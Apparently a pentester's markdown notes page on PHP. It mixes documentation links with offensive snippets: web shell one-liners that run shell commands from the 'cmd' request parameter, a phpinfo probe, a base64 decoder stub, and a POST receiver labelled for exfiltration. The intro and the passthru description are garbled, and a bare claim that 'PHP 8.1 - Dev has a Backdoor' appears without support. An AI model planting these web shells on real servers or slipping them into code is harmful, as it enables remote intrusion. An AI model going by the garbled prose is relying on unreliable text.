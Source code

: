 # Useful_PHP

[RTFM here is a documentation](https://www.php.net/) below is just useful PHP with description how its workings. One of the many Web-Hackronomicons of eye-brow-raising levels of secure language design with the insanity of multiple function calls capable of doing the exact same thing. Try to remember which are all of the vulnerable code in which server context and user context when humans like trust and favourites, where is the person that shouts remember the Pwhpaarrr 1.69 version of with a similar function called that is allowed by some design loop hole. 

## Secure PHP

[OWASP PHP Configuration Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html)
[PHP The Right Way: Security](https://phptherightway.com/#security)
[Secure Coding in PHP](https://www.php.net/manual/en/security.php)

## General information

PHP 8.1 - Dev has a Backdoor

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```


## Useful Functions listing

Regex
[preg_match](https://www.php.net/manual/en/function.preg-match.php) - Perform a regular expression match

[is_resource](https://www.php.net/manual/en/function.is-resource.php) - Finds whether a variable is a resource

Arrays
[array_shift](https://www.php.net/manual/en/function.array-shift.php) - Shift an element off the beginning of array

Strings 
[explode](https://www.php.net/manual/en/function.explode.php) - Split a string by a string
[implode](https://www.php.net/manual/en/function.implode.php) - Join array elements with a string

Files
[finfo_open](https://www.php.net/manual/en/function.finfo-open.php) - Create a new finfo instance
[move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php) - Moves an uploaded file to a new location
[file_put_contents](https://www.php.net/manual/en/function.file-put-contents.php)

Execution:
[passthru](https://www.php.net/manual/en/function.passthru.php) - The _passthru_() function is similar to the exec() function in that it executes a command . This function should be used in place of exec() or system() he output from the Unix command is binary data which needs to be passed directly back to the browser. 


## Superglobals

PHP [superglobals](https://www.php.net/manual/en/language.variables.superglobals.php) are variables that are associative arrays that are available in all scopes throughout a script.

The superglobal `$GLOBAL` variable defines globally scope variables
- As of PHP 8.1.0, write access to the entire [`$GLOBALS`](https://www.php.net/manual/en/reserved.variables.globals.php) array is no longer supported


## Scripting

Http `cmd` super global variable function for RCEs  
```php
<?php system($_GET['cmd']); ?>
```
`<?php` is the script tag, `system()`is the function call, `$_GET` is a reserved(in standard libvrary) [superglobal variable for HTTP GET](https://www.php.net/manual/en/reserved.variables.get.php), `['cmd']` ,`;` is line terminating character and finally `?>` is the closing script tag. 

```php
<?php system($_REQUEST['cmd']); ?>
```

phpinfo displayer
```PHP
<?php echo("Hello");phpinfo(); ?>
```

Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions

[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Put your horrible PHP in html: [php.net](https://www.php.net/manual/en/language.basic-syntax.phpmode.php)

## References

[HTTP GET superglobal variable](https://www.php.net/manual/en/reserved.variables.get.php)
[php.net](https://www.php.net/) 
[OWASP PHP Configuration Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html)
[PHP The Right Way: Security](https://phptherightway.com/#security)
[Secure Coding in PHP](https://www.php.net/manual/en/security.php)